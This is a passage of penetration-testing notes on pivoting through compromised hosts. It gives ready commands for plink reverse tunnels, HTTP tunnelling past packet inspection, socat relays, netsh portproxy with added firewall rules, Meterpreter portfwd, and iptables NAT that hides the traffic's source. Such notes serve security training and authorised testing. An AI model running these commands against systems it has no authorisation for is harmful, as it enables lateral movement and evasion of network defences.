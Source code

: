 			ex. if we have system access to a windows machine but there's inbound port filtering, and we want to access mysql on port 3306
			transfer program to victim
			on windows victim:   cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
			    then we can do:  sudo nmap -sS -sV 127.0.0.1 -p 1234
		HTTPTunneling through Deep Packet Inspection:
			ex. if we got root on linux victim, but firewall only allows http packets, not ssh
			sudo apt install httptunnel
			on linux victim:  ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
			    forwards to windows server deeper in network
			    then hts --forward-port localhost:8888 1234   (forwards local 1234 to 8888)
			on kali:   htc --forward-port 8080 10.11.0.128:1234
			then we can access windows server on kali by rdesktop 127.0.0.1:8080				
		ex. FPipe:
			ssh user@203.1.1.1 -L 1111:192.0.2.78:23 -L 2222:192.0.2.78:9999
			telnet localhost 1111
				fpipe -l 9999 -r 23 192.168.108.31
			telnet localhost 2222
		ex. Socat UDP/TCP:
			ssh user@100.1.1.1 -p 2222 -L 1111:198.18.30.5:22
			ssh user2@localhost -p 1111 -L 3333:localhost:3333
			Target Neighbor:  socat TCP-LISTEN:3333 UDP-CONNECT:198.18.30.12:137
			Linux Op Station:  socat UDP-LISTEN:137 TCP-CONNECT:127.0.0.1:3333
			From WinOps:  nbtstat -A 192.168.11.13
	Native Tools:
		Windows:  portproxy
		    netsh interface portproxy set v4tov4 listenport=2222 connectaddress=192.168.108.31 connectport=23 [listenaddress=127.0.0.1 protocol=tcp]
			*Remember to Allow Firewall:   runas /user:Administrator "netsh advfirewall firewall add rule name=1323 dir=in action=allow protocol=TCP localport=1323"
			Using Meterpreter:
				run multicommand -cl 'cmd.exe /c netsh interface portproxy set v4tov4 listenport=3389 connectaddress=192.168.200.69 connectport=22'
				run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name=3389 dir=in action=allow protocol=TCP localport=3389'
				ssh user@localhost -p 33389
		Or:  run post/windows/manage/portproxy ...
		Unix:  iptables
		    *First check for routing, and conntrack module:  cat /proc/sys/net/ipv4/ip_forward  (echo 1 > /proc/sys/net/ipv4/ip_forward) ;  lsmod | grep conntrack
		    Translate to Target Address (Forward):  iptables -t nat -A PREROUTING -p tcp --dport 1323 -d 192.168.108.31 -s 172.17.10.71 -j DNAT --to-destination 192.168.113.177:23
			**Also hide source (allows to return here):  iptables -t nat -A POSTROUTING -p tcp --dport 23 -d 192.168.113.177 -s 172.17.10.71 -j SNAT --to-source 192.168.108.31
			*Also enable Firewall:  iptables -A FORWARD -p tcp --dport 23 -d 192.168.113.177 -s 172.17.10.71 -j ACCEPT
			    *And Back:  iptables -A FORWARD -m state --state RELATED,ESTABLISHED -j ACCEPT
			Another Example:
				-L8080:192.0.2.79:8080
				iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 8080 -j DNAT --to-destination 192.168.255.12:80
				If conntrack module is loaded, no need for a reversing rule
				echo 1 > /proc/sys/net/ipv4/ip_forward
				iptables -I RH-Firewall-1-INPUT 10 -p tcp --dport 80 -j ACCEPT
				iptables -t nat -A POSTROUTING -p tcp --dport 80 -d 192.168.255.12 -j SNAT --to-source 172.17.10.79
				nc -n 127.0.0.1 8080
        Pivoting with Meterpreter:
		*Use MSF portfwd when possible
		Within Meterpreter:  portfwd add -l <local port on the attacking machine (yours)> -p <victim port we want to access> -r <victim IP address>  ;  portfwd list  -  like SSH local forwarding  (help: portfwd -h)
			Forward:
				ex. portfwd add -L 127.0.0.1 -l 55555 -r 192.168.0.11 -p 55555